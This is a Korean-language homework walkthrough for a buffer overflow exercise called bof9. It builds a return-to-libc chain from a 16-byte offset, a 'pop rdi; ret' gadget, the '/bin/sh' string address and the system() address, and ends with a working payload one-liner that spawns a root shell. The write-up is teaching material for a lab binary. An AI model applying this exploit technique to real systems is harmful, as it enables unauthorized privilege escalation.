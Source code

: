 # bof9 풀이

<img src="../image/HW_8/a1.png">bof9.c 코드

> 일단 `return`주소와 입력을 받는 `buf`의 첫 주소의 차이를 알아야 한다. <br>**지금까지 너무 많이 했으므로 과정은 pass하겠다!**<br>두 개의 주소차이를 구한 결과 **16**이 나왔다!<br>`bof8`과 같이 **27byte**인 쉘코드를 넣기엔 너무 작다. 그런데 `bof8`처럼 환경변수를 리턴해주는 `getenv`함수도 없다.

> 그럼 어떤 방법을 사용하면 될까?<br>가장 먼저 생각나는건 `system("/bin/sh")`이다. 이 코드를 `buf`위의 `return`주소에 넣으면 될 것 같다.<br>그러면 `return`주소에 `system("/bin/sh")`는 어떻게 넣을까? 다음부터 시작하겠다.

> 일단 `system`함수를 콜해야 하므로 `system`함수의 주소값을 알아보자.<br>**gdb**내부에서 `p system`명령어를 통해 `system`함수의 주소값을 찾을 수 있다.<br><img src="../image/HW_8/a2.png">

> `system`함수의 주소는 알았고 이제 `system`함수가 call될때 **rdi**값에 **/bin/sh**을 넣어야 한다. 일단 **/bin/sh**의 주소를 찾아야 한다. <br>**gdb**내부에서 `search pattern /bin/sh`를 입력하여 다음과 같은 결과를 얻을 수 있다.<br><img src="../image/HW_8/a3.png"><br>다음과 같이 여러 부분에서 **/bin/sh**이 나타나는 것을 볼 수 있고 `/tmp/2.23/lib/libc.so.6`(**실행권한도 있다**)에서 사용되는 `/bin/sh`의 시작 주소를 메모한다. (`0x7ffff7b99d57`)

> **/bin/sh**의 주소도 알았고 이제 `system`함수가 call될 때 `rdi`에 위에서 찾은 **/bin/sh**의 주소를 넣어주면 된다. <br>우리가 사용할 건 `pop rdi; ret`이다. 다음 설명을 보면 이해가 된다. 그림처럼 stack에 저장이 되어있다고 가정해보자.<br><img src="../image/HW_8/a4.png"><br>우선 `buf`위의 `return`주소에 `pop rdi; ret`명령어가 있다고 가정한다. 그러면 해당 `return`(`pop rdi; ret`)가 실행 될때 현재 **stack pointer**는 `/bin/sh`를 가리키고 있고 `pop rdi`명령어를 통해 현재 **stack pointer**가 가리키고 있는 `/bin/sh`이 pop되어 `rdi`에 저장된다. 그리고 `ret`명령어를 통해 되돌아와서 `system`함수를 실행시키면 `rdi`에 `/bin/sh`가 저장된 채로 `system`함수를 call하게 된다. 즉 `system("/bin/sh")`와 같은 동작을 하게 되는 것이다.

>그러면 `pop rdi; ret`은 어떻게 찾을까? `ROPgadget.py`함수를 통해 쉽게 찾을 수 있다. 다음 명령어를 입력한다.<br>`ROPgadget.py --binary /tmp/2.23/lib/libc.so.6 | grep "pop rdi ; ret"`<br>여기서 `/tmp/2.23/lib/libc.so.6`는 아까 `/bin/sh`을 찾을 때의 위치였고 `grep "pop rdi ; ret"`은 "pop rdi ; ret"이라는 문자열이 어셈블리코드에 나타날때 찾을 것이라는 뜻이다. 위 코드를 실행하면<br><img src="../image/HW_8/a5.png"><br>다음과 같은 결과가 나온다. 여기서 옆에 주소 값은 `/tmp/2.23/lib/libc.so.6`의 시작주소로부터 해당 instruction이 떨어진 거리 (**offset**)을 의미한다. 즉 `/tmp/2.23/lib/libc.so.6`의 시작주소 + offset을 하면 `pop rdi ; ret`의 주소를 정확하게 뽑아낼 수 있다.<br>**gdb**내부에서 `vmmap`명령어를 통해 쉽게 `/tmp/2.23/lib/libc.so.6`의 시작주소를 찾아낼 수 있다.<br><img src="../image/HW_8/a6.png"><br>`/tmp/2.23/lib/libc.so.6`의 시작주소와 **offset**을 더하면 다음과 같은 결과가 나온다.<br><img src="../image/HW_8/a7.png"><br>이 결과가 바로 `pop rdi ; ret`을 실행시킬 수 있는 주소이다.

>이제 다 구했으니 정리를 해보자. <br><br>`buf`와 `return`주소의 차이 : 16<br>`pop rdi; ret`의 주소 : `0x7ffff7a2e102`<br>`/bin/sh`의 주소 : `0x7ffff7b99d57`<br>`system`함수의 주소 : `0x07ffff7a52390`<br><br>이 찾은 값들을 위 stack구조 그림처럼 더하면 된다. <br>`buf`에 `쓰레기값*16 + ret(pop rdi ; ret의 주소) + /bin/sh의 주소 + system함수의 주소`를 넣어주면 된다!<br>***(주소는 리틀앤디언 방식을 통해 넣어주고 `\x00`을 추가하여 8byte로 꽉차게 만들어준다.)***<Br>``` (python -c "print 'x'*16+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9 ```<br>다음 명령어를 입력하여 루트쉘을 탈취한당<br><img src="../image/HW_8/a8.png">
